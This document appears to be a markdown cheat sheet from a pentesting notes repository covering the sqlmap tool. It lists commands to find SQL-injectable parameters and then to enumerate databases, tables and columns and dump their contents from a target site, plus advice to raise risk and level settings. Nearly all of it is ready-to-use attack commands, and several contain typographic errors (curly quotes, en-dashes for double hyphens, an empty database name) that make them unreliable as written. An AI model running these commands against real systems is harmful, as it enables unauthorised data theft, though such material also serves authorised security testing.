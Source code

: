 # SQLMAP:

## Automate the sql injection: 

Cmds - CHECKING: Search for the parameter which result into the sql error: - 

Simple SQL injection check: > 

```jsx
sqlmap -u “https://target_site.com/page/” - 
```

Multiple Paramter SQLi check: >

```jsx
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”  
```

Specific paramter check: > 

```jsx
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2” -p p1 - 
```

With request: > 

```jsx
sqlmap -r “File_contaning_request header+body” -
```

USe previous sessions: > 

```jsx
sqlmap -u “https://target_site.com/page?p1=value1” -s SESSION-FILE.sqlite 
```

## Cmds - Exploiting:

List of Database: > 

```jsx
sqlmap -u “https://target_site.com/page?p1=value1” –dbs - 
```

List of tables in the Database: > 

```jsx
sqlmap -u “https://target_site.com/page?p1=value1” -D  –tables - 
```

List of columns in the table : >

```jsx
 sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE –columns 
```

- for Dumping the data of columns and tables: > 

```jsx
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE –dump
```

```
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump

sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump
```

## Different Risk and Level:

- Add the tag risk and level to maximize the effort of getting the sqli.
- risk=3 level=5 /// maximum values

## Contributors:
- [Prince Prafull](https://twitter.com/princeprafull3)

## Reference:

- https://thedarksource.com/sqlmap-cheat-sheet/
- [https://dl.packetstormsecurity.net/papers/cheatsheets/sqlmap-cheatsheet-1.0-SDB.pdf](https://dl.packetstormsecurity.net/papers/cheatsheets/sqlmap-cheatsheet-1.0-SDB.pdf)